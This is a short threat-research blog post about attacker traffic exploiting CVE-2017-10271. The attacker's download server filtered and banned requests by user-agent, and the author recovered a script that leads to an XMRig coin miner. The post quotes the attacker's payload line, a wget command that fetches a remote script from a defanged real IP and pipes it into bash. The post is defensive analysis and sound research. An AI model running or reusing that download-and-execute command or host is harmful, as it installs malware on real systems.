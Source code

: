 ```yaml
---
title: "Disinvited from a URL by User-Agent"
#author: "Author Name"
description: "Discussion about attacker traffic providing a URL that blocked connections if they didn't specify a specific user-agent"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-15T00:00:00-00:00
draft: false
---
```

I have to check this thing every day or I miss something.  It's not every day that I see something new - most days are the same things I've already seen and new copies of malware that's basically the same as the old.

This morning, however, I witnessed a tactic I had wondered if anyone considered employing in the past, but hadn't actually observed evidence of.

I had traffic showing an attacker attempting to exploit CVE-2017-10271, dropping software from hxxp://107.181.174.232/lin/st.sh.  This was similar to yesterday's traffic, but then I wasn't able to capture the script before losing the server.  This morning I attempted to grab the script.

```bash
wget hxxp://107.181.174.232/lin/st.sh
--2018-06-15 11:15:13--  hxxp://107.181.174.232/lin/st.sh
Connecting to 107.181.174.232:80... connected.
HTTP request sent, awaiting response... 403 Forbidden
2018-06-15 11:15:14 ERROR 403: Forbidden.
```

Let's try again with the windows version of this...

```bash
wget hxxp://107.181.174.232/win/checking.ps1
--2018-06-15 11:15:56--  hxxp://107.181.174.232/win/checking.ps1
Connecting to 107.181.174.232:80... failed: Connection refused.
```

Interesting - server's there, URL's forbidden.  Then, I try again but "connection refused".  But, the original request from my logs was actually:

```xml
<void index="2">
    <string>wget --user-agent linux -O - hxxp://107.181.174.232/lin/st.sh | bash</string>
</void>
```

The user agent was specified - I only used wget's default.  Normally that's not a problem.

However - an attacker that wants to make things just a bit harder for researchers could filter based on user agent, then turn IP addresses that fail the filter into a firewall rule, banning the IP address.

I try again from a different IP address...

```bash
wget --user-agent linux hxxp://107.181.174.232/lin/st.sh
--2018-06-15 11:18:16--  hxxp://107.181.174.232/lin/st.sh
Connecting to 107.181.174.232:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1073 (1.0K) [application/x-sh]
Saving to: ‘st.sh’

st.sh               100%[===================>]   1.05K  --.-KB/s    in 0s      

2018-06-15 11:18:16 (108 MB/s) - ‘st.sh’ saved [1073/1073]
```

Thank you!

st.sh leads to other downloads, including "xmrig" and "H" for 32/64 bit x86.  At least xmrig looks to be a coin miner called XMRigCC, doing the cryptonight algorithm.

It's great to see some new, simple tactics being used.

Even after going back with the new user-agent, I get a 404 on the windows powershell script download.  I don't know what the powershell user-agent comes out as immediately, or I'd try it.  I don't get the same fail-to-ban behavior using the "linux" user-agent for the Windows download though, perhaps because my IP is already accepted, or perhaps because the aperture for what's accepted is wide enough.

